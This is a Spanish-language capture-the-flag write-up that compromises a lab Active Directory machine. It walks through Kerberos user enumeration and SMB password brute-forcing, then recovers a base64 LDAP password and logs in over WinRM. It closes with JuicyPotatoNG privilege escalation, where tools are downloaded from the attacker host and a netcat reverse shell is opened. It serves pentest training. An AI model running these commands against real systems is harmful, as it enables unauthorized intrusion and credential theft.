

Comenzamos escaneando los puertos abiertos de la máquina víctima con ``nmap``:

``sudo nmap 10.10.10.30 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``



Ojo. Esto canta a DC a kilómetros: DNS, Kerberos, SMB, RPC... Vamos a volver a pasar otro escaneo con ``nmap`` sobre estos puertos abiertos para que nos confirme qué servicios, tecnologías y versiones están corriendo.

``nmap 10.10.10.30 -sCV -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49680,49686,49690,49697,49718 -oN target``



Podemos empezar a ver cositas interesantes en el propio output de nmap. Por ejemplo: ``Domain: allsafe.nyx``

Podemos hacer uso de ``netexec`` sobre ``smb`` para confirmar dominio y ver el nombre del equipo:

``netexec smb 10.10.10.30``



Confirmamos dominio ``allsafe.nyx`` y sacamos nombre del equipo: ``misconfigured``

Añadimos esta información al ``/etc/hosts``:

Si intentamos enumerar usuarios a través de RPCCLIENT:

``rpcclient -U '' 10.10.10.30 -N``



Si en vez de null sesion, probamos ``guest``:

Disabled.

Si intentamos enumerar a través de SMB, tampoco tenemos éxito.
Si intentamos enumerar a través de LDAP, tampoco tenemos éxito.

Dado que no hemos podido enumerar ningún usuario a través de RPC, SMB y LDAP, sólo nos queda el uso de ``kerbrute``. Como diccionario, utilizaremos ``A-Z.Surnames.txt`` del repositorio: ``https://github.com/attackdebris/kerberos_enum_userlists``

``kerbrute userenum --dc 10.10.10.30 -d allsafe.nyx ~/Pentest/Tools/kerberos_enum_userlists/A-Z.Surnames.txt``



Ojo, nos descubre los usuarios: ``a.moss`` y ``c.slater``.

Los guardamos esta data en ``users.txt``:



Se prueban contraseñas como sus propios nombres, pero no funcionan. No tenemos ninguna otra pista de la que poder tirar para sacar su contraseña, por lo que se decide utilizar fuerza bruta con ``rockyou`` como diccionario:

``netexec smb 10.10.10.30 -u users.txt -p /usr/share/wordlists/rockyou.txt --continue-on-success --ignore-pw-decoding | grep -v '[-]'``



Ojo. Nos encuentra las credenciales ``a.moss``:``Password1``.

Lo primero que hacemos es validarlas otra vez de forma específica:

``netexec smb 10.10.10.30 -u 'a.moss' -p 'Password1'



Vale, son credenciales válidas de dominio. También podemos utilizar estas credenciales sobre el protocolo winrm para saber si este usuario forma parte del grupo ``Remote Management Users``. De ser así, podremos conectarnos a la máquina víctima con este usuario vía winRM:

Pero no. Otra cosa que podemos hacer es enumerar el resto de usuarios con sus respectivas descripciones, por si hubiese algo de utilidad en ellas:

``netexec smb 10.10.10.30 -u 'a.moss' -p 'Password1' --users``



El usuario ``c.slater`` forma parte del departamento de IT. Posiblemente jugoso.

Como tenemos credenciales válidas a nivel de dominio, podemos seguir enumerando a través de ``ldapdomaindump``:

``ldapdomaindump -u 'allsafe.nyx\a.moss' -p 'Password1' 10.10.10.30``



Abrimos webserver con python: ``python3 -m http.server 80`` para poder visualizar la data generada. En concreto, vamos a visualizar: ``domain_users.html`` 



Bueno, sacamos cositas que puede que sean de interés:
- a.moss = Angela Moss
- c.slater = Christian Slater.

A su vez, ``c.slater`` forma parte del grupo ``Remote Managemenet Users``, por lo que si conseguimos su contraseña podremos conectarnos vía winRM.

Como tenemos credenciales válidas a nivel de dominio, ``a.moss``:``Password1``, podemos intentar tanto ``as-rep roasting`` como ``kerberoasting`` a través de ``impacket``. Pero ninguna de las dos tiene éxito.

Se me ocurre que podemos husmear vía LDAP con las credenciales que tenemos utilizando ``ldapsearch``:

``ldapsearch -x -b "DC=allsafe,DC=nyx" -H "ldap://10.10.10.30" -D 'allsafe\a.moss' -w 'Password1' > ldapsearch.txt``

Si echamos un vistazo al archivo que acabamos de generar, y filtramos por ``Slater`` (el usuario del que buscamos algo de info), encontramos algo jugosísimo:



¿Cómo? ¿Hemos conseguido la contraseña cd ``c.slater``? ``userPassword:: UEB6elcwcmQyMDI1IQ==``

Parece base64, por lo que, rápidamente, se prueba a decodificar:

``echo 'UEB6elcwcmQyMDI1IQ==' |base64 -d``



Bingo. Parece que tenemos nuevas credenciales: ``c.slater``: ``P@zzW0rd2025!``, pero primero hay que validarlas con ``netexec``:

``netexec smb 10.10.10.30 -u 'c.slater' -p 'P@zzW0rd2025!' ``

Pues efectivamente. Tenemos nuevas credenciales válidas a nivel de dominio que deberían servirnos para conectarnos vía winRM porque antes hemos visto que este usuario forma parte del grupo ``Remote Management Users``, pero vamos a validarlo con netexec:



Voilà. Esto quiere decir que podemos conectarnos vía con ``evil-winRM``:

``evil-winrm -i 10.10.10.30 -u 'c.slater' -p 'P@zzW0rd2025!'``



Estamos dentro de la máquina objetivo como ``c.slater``.

Recogemos la flag de user en ``C:\Users\c.slater\Desktop\user.txt``:



# PRIVESC

Se comienza probando escaladas típicas de Windows.

``whoami /priv``



Ojo. Tenemos el privilegio ``SeImpersonatePrivilege``, por lo que podemos hacer uso de ``Potato``. Existen muchísimas opciones, pero en esta ocasión utilizaremos ``JuicyPotatoNG.exe``.

Vamos a compartir tanto ``JuicyPotatoNG.exe`` como ``nc.exe``:
- Abrimos servidor web con python en el directorio donde tengamos dichas utilidades: ``python3 -m http.server 80``
- Hacemos solicitud desde la máquina víctima de dichos recursos:
``iwr http://10.10.10.4/JuicyPotatoNG.exe -o JuicyPotatoNG.exe``
``iwr http://10.10.10.4/nc64.exe -o nc.exe``



- Una vez tenemos ambos recursos en la máquina víctima, levantamos listener en máquina atacante que recibirá la revshell: ``rlwrap nc -nvlp 80``

- En máquina víctima, ejecutamos: ``.\JuicyPotatoNG.exe -t * -p "C:\temp\nc.exe" -a "-e cmd 10.10.10.4 80"``

- Revisamos listener:



Nos he llegado, estupendo. Podemos recoger la flag de Administrator en ``C:\Users\Administrator\Desktop\root.txt``


